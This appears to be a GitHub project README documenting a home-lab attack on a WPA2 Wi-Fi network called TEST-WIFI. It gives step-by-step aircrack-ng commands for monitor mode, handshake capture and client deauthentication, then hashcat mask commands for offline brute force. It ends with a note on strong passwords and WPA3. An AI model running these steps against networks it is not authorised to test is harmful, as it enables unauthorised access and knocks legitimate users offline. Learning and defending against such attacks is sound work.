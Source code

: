 Projet description
This project is used to brute-force wifi password using GPU.

Tools needed

1. CUDA toolkit

2. Hashcat

3. Network adaptor that supports monitor mode (In this project, i am using TP-Link AC600)

4. Kali linux VM

5. Windows Host Machine

Procedure

1. In the Windows host machine :

    We need to install Hashcat, which is used to crack the password, and CUDA toolkit in order to utilize the processing of the GPU to crack the password.

    You can refer to this link on how to install Hashcat and CUDA toolkit : https://www.youtube.com/watch?v=b5zQ6xTQGfY&t=578s

    08:31 - Downloading Hashcat

    10:51 - Downloading NVIDIA & CUDA Toolkit

    We need to install the driver on Kali Linux for the network adapter. We must use a network adapter that supports monitor mode, or else this hack would not work.

    You can refer to this link on how to install the driver for the network adapter TP-Link AC600 : https://www.youtube.com/watch?v=NQckErucvhI

2. In the Kali Linux VM :

    <img width="657" height="307" alt="image" src="https://github.com/user-attachments/assets/e036f1d4-f55b-458d-a845-b5a0381865d1" />

    Enter this command to kill any interfering processes that may interfere : **sudo airmon-ng check kill**

    Enter this command to enable monitor mode : **sudo airmon-ng start wlan0**

    Enter this command if we want to stop the monitor mode : sudo airmon-ng stop wlan0mon

    <img width="790" height="410" alt="image" src="https://github.com/user-attachments/assets/57fa2c2e-9024-4b14-b651-eb0e1092364d" />

    Enter this command to see the wifi available : **sudo airodump-ng wlan0**

    In this case, we select TEST-WIFI as the target network. We should take note of the BSSID and the CH used for the target network.

    <img width="817" height="202" alt="image" src="https://github.com/user-attachments/assets/73bae0d0-efc8-4a04-93db-4a5131fb3223" />

    Enter this command to only focus on the target network : **sudo airodump-ng -c `<CH>` --bssid `<BSSID>` -w capture wlan0**

    We need to take note of the BSSID and the Station. BSSID is the target network, and Station is the device connected to it. In order to perform this hack, we must carry out the deauthentication process, where we simply kick out the connected device and ask them to re-enter the password to capture the handshake, which we then can use Hashcat to perform the brute-force attack using GPU.

    <img width="777" height="160" alt="image" src="https://github.com/user-attachments/assets/332d75e0-94ad-43a1-a849-f4178461a96e" />

    Enter this command to carry out deauthentication process : **sudo aireplay-ng --deauth 5 -a `<BSSID>` -c `<CLIENT_MAC>` wlan0**

    In this process, the connected device will be forced to disconnect from the network and reconnect, allowing us to capture the handshake.

    <img width="783" height="198" alt="image" src="https://github.com/user-attachments/assets/4347b5a2-3525-4361-8ec6-23bf53d39cce" />

    In this image, the WPA handshake has been successfully captured.

    <img width="811" height="100" alt="image" src="https://github.com/user-attachments/assets/5b9dd72c-1fa5-4202-966d-ef184058b781" />

    We enter this command : **hcxpcapngtool -o TEST-WIFI-Captured.22000 capture-02.cap**

    This command allows us to convert that data into Hashcat’s 22000 format.

    Then, we need to transfer the TEST-WIFI-Captured file into the Windows host to crack the file. It is important that the capture file is in the same directory as the Hashcat file that has been downloaded into the Windows host.

3. In the Windows host

    <img width="1450" height="198" alt="image" src="https://github.com/user-attachments/assets/aad5970f-bbca-4c9f-8600-6cbc6952e554" />

    We enter this command : **hashcat.exe -m 22000 -a 3 TEST-WIFI-Captured.22000 ?d?d?d?d?d?d?d?d?d**

    This will crack a password of up to 9 digits.
   
    If we want to crack up to 9 of any characters we use this command : hashcat.exe -m 22000 -a 3 TEST-WIFI-Captured.22000 ?a?a?a?a?a?a?a?a?a

    <img width="997" height="148" alt="image" src="https://github.com/user-attachments/assets/dd0e84d7-baba-4aa7-928f-5b56c4a76ea0" />

    In this picture, it shows us that we successfully cracked the password, where the password is "123456789".

    Learning experience

    In this project, we must learn that we must put a very secure password to prevent this type of attack. With the evolving of wifi technology such as WPA3, it can prevent such attacks, where WPA3 uses the SAE handshake, which generates a unique secret per session, making captured handshakes useless for offline brute-force attacks. Only online guessing is possible, which is much slower.
